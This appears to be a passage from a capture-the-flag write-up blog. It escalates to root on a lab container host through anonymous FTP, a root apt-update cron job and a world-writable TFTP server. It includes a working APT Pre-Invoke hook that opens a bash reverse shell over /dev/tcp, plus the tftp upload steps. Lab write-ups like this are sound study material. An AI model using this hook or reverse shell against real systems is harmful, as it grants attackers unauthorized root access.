

### FTP 

Accessing the ftp server on 192.168.0.1, we are in the / directory of the target. We can access a lot of these files and directories. 

Download /etc with wget

```
wget -r ftp://anonymous:@192.168.0.1/etc/\*
```

### Crontab 

Looking at what jobs are running on the target at 192.168.0.1 we find two commands running as root.

```
root@Inception:/tmp/hacker/192.168.0.1/etc# cat crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
30 23	* * *	root	apt upgrade -y 2>&1 >/dev/null
```

APT update is running every 5 minutes. I take a look on gtfobins for information on the command. A section on Gtfobins mentions command execution pre update command execution.



Searching a little more into this I search google for 'apt run pre commands'. I come across a post on stackexchange https://unix.stackexchange.com/questions/204414/how-to-run-a-command-before-download-with-apt-get . The post mentions the pre-invoke command being executed from the /apt.conf.d/ directory. 

```
$ sudo cat /etc/apt/apt.conf.d/05new-hook
APT::Update::Pre-Invoke {"your-command-here"};
```



Searching for information on the /apt.conf.d/ directory, I find information in the [apt.conf.d man pages](https://manpages.ubuntu.com/manpages/trusty/man5/apt.conf.5.html#:~:text=%2Fetc%2Fapt%2Fapt.,to%20provide%20a%20uniform%20environment.).

If we place a file in the /etc/apt/apt.conf.d/ directory, we can execute Pre/Post commands as apt update is run. Looking at the /etc/apt/apt.conf.d/ directory, we see we have no write privileges.

## TFTP

Continuing the search of the /etc directory on FTP, we find the default configuration file for a tftp sever. 

```
cat /192.168.0.1/etcdefault/tftpd-hpa
```



The server is running as root as root and is hosting the / filesystem. Tftp does not have any security or authentication, so let's try and write to the target at 192.168.0.1. We will try to write to /home and confirm the existence of the file by connecting to ftp.

Create a file named test.txt, then connect to the target via tftp. Write the file to /home/, exit tftp and logging to ftp and confirm that test.txt was written to /home/




## Privilege Escalation On COntainer Host

We have write access to the / file system via the tftp misconfiguration, we also know that apt update is running as a cron job every 5 minutes. 

With the information about 'APT::Update::Pre-Invoke' and our write access, we can create a file inside /etc/apt/apt.conf.d/. The contents of the file will execute our chosen command prior to apt update being executed.

### Putting it all together

We will create a file named 'exploit' and enter the following configuration into it. 

```
vim exploit
```

The configuration will execute a bash reverse shell to the container on port 1234. We use this port as we know it will be accessible.

```
APT::Update::Pre-Invoke {"/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1234 0>&1'"}
```

We then connect via tftp and upload our exploit configuration file to the apt.conf.d directory.

```
tftp 192.168.0.1
tftp> put exploit /etc/apt/apt.conf.d/exploit
Sent 92 bytes in 0.0 seconds
tftp> q
```

Once the file is uploaded, we use netcat to listen on port 1234. We get the connection as root on the container host at 192.168.0.1



[Back To Blog](https://0xd4vid.github.io/)

---  
---
